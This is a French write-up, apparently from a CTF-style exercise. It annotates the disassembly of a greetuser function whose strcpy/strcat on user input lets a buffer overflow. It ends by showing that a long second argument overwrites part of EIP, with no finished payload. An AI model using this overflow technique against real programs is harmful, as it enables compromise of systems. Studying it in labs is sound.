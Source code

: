   ```
       0x0804851c <+152>:   lea    eax,[ebp-0x48]
       0x0804851f <+155>:   mov    DWORD PTR [esp],eax
       0x08048522 <+158>:   call   0x8048390 <puts@plt>
       0x08048527 <+163>:   leave  
       0x08048528 <+164>:   ret    
    End of assembler dump.
    ```
    - <+0>...<+3>
      - Initialise la mémoire, aligne la stack et alloue 88 bytes.<br/><br/>
    - <+6>...<+23>
      - Met la variable globale 0x8049988 (<language>) dans EAX
      - Compare cette valeur avec 1
      - Si la variable globale language est égale à 1, jump à <greetuser+54>
      - Compare language avec 2 
      - Si la variable globale language est égale a 2 jump à <greetuser+101>
      - Compare language avec 0
      - Si la variable globale language n'est pas égale a 0 jump à <greetuser+134><br/><br/>
    - <+25>...<+52>
      - [Équivalent à strcpy](https://www.esaracco.fr/documentation/assembly/assembly/copie-de-chaine.html)(buffer, "Hello ") 
      - https://www.gladir.com/LEXIQUE/ASM/movzx.htm
      - Stocke la valeur à 0x8048710 dans EDX
        - `x/s 0x8048710`
          ```
          0x8048710:       "Hello "
          ```
      - jump a <greetuser+134><br/><br/>
    - <+54>...<+99>
      - Équivalent à strcpy(buffer,valeur à 0x8048717)
        - `x/s 0x8048717`
          ```
          0x8048717:       "Hyvää päivää "
          ```
        <br/>
    - <+101>...<+133>
      - Équivalent à strcpy(buffer, valeur à 0x804872a)
      - `x/s 0x804872a`
        ```
        0x804872a:       "Goedemiddag! "
        ```
        <br/>
    - <+134>...<+147>
      - Stocke l'argument de la fonction en 2nd argument
      - Stocke notre buffer en premier argument
      - Appelle strcat(buffer, arg)<br/><br/>
    - <+152>...<+158>
      - Stocke buffer en argument
      - Appelle puts(buffer)<br/><br/>

    - <+163>...<+164>
      - Return eax (le retour de puts)
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

## Exploit

On peut voir qu'on controle une partie de l'eip a partir du second argument

```
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 200') $(python -c 'print "B" * 200')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
